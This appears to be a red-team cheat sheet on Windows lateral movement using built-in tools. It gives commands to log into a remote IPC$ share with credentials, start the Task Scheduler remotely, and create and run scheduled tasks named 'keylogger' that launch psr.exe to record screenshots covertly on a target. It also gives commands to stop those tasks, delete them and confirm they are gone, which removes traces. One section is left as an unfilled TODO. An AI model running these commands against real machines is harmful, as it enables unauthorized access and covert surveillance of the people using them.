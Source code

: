 # Living off the Land

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Conditions

Ensure the `Task Scheduler` is running. Here are the commands.

```
C:\> net use \\<IP>\IPC$ /user:<username> <password>
sc \\<IP> config Schedule start= auto
sc \\<IP> start Schedule
```

## 02 - Manual

TODO: Fill this info

## 03 - Scenarios

Taking screenshots via **Living off the Land (LofL)**.

```
C:\> net time \\<IP>

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Get-Date}

C:\> schtasks /create /tn "keylogger" /tr "C:\Windows\system32\psr.exe /start /gui 0 /output C:\path\to\file.zip" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks /run /tn "keylogger" [/ru <DOMAIN>\<username>] [/rp <password>] /s <IP>
```

Create schedule task to stop taking screenshots.

```
C:\> schtasks /create /tn "stop_keylogger" /tr "C:\Windows\system32\psr.exe /stop" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks /run /tn "stop_keylogger" [/ru <DOMAIN>\<username>] [/rp <password>] /s <IP>
```

Delete schedule tasks.

```
C:\> schtasks /delete /f /tn "keylogger" /s <IP>

C:\> schtasks /delete /f /tn "stop_keylogger" /s <IP>
```

Confirm schedule tasks are removed.

```
C:\> schtasks /query /tn "keylogger" /fo List /v /s <IP>

C:\> schtasks /query /tn "stop_keylogger" /fo List /v /s <IP>
```

---
## References

- [LOFLCAB: net.exe](https://lofl-project.github.io/loflcab/Binaries/net/)

- [Schtasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)